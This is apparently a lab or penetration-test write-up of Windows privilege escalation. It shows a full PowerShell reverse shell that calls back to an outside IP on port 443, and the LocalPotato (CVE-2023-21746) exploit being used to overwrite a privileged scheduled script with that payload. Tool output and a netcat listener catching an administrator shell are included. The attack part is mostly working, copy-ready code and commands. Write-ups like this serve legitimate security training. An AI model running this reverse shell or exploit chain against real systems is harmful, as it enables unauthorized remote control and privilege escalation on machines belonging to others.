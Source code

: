 One file at `C:\Program Files\Automation-Scripts\wpad-cache-cleaner.ps1` seems to be an automated cleanup script. If this script runs with higher privileges (scheduled task, service, or startup script), swapping it out for our payload means the next time it runs, we get a SYSTEM or admin shell.

We will create the following `shell.ps1` reverse shell script and then upload it to `WS-3`:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.99.12',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

Now we perform the Potato exploit and start a new netcat listener on `LAB-2`.

```powershell
C:\tmp> .\potato.exe -i C:\tmp\shell.ps1 -o "\Program Files\Automation-Scripts\wpad-cache-cleaner.ps1"
.\potato.exe -i C:\tmp\shell.ps1 -o "Program Files\Automation-Scripts\wpad-cache-cleaner.ps1"

     LocalPotato (aka CVE-2023-21746 & HTTP/WebDAV) 
     by splinter_code & decoder_it

[*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAAC/ZTEHh2lnXwwz8QljdkPFAbQAADQMEA/tQveHVe57FisAFQAHAFcAUwAtADMAAAAHADEAOQAyAC4AMQA2ADgALgA5ADkALgAyAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:
[*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
[*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
[*] Received DCOM NTLM type 1 authentication from the privileged client
[*] Connected to the SMB server with ip 127.0.0.1 and port 445
[+] SMB Client Auth Context swapped with SYSTEM 
[+] RPC Server Auth Context swapped with the Current User
[*] Received DCOM NTLM type 3 authentication from the privileged client
[+] SMB reflected DCOM authentication succeeded!
[+] SMB Connect Tree: \\127.0.0.1\c$  success
[+] SMB Create Request File: Program Files\Automation-Scripts\wpad-cache-cleaner.ps1 success
[+] SMB Write Request file: Program Files\Automation-Scripts\wpad-cache-cleaner.ps1 success
[+] SMB Close File success
[+] SMB Tree Disconnect success
```

Boom — potato’s baked and served. After sitting there like a sniper in the bushes for ~10+ minutes, the task finally ran and called our reverse shell.

```console
root@LAB-2:/# sudo nc -nvlp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 192.168.99.2 59755 received!

PS C:\Windows\system32> whoami
ws-3\administrator
```
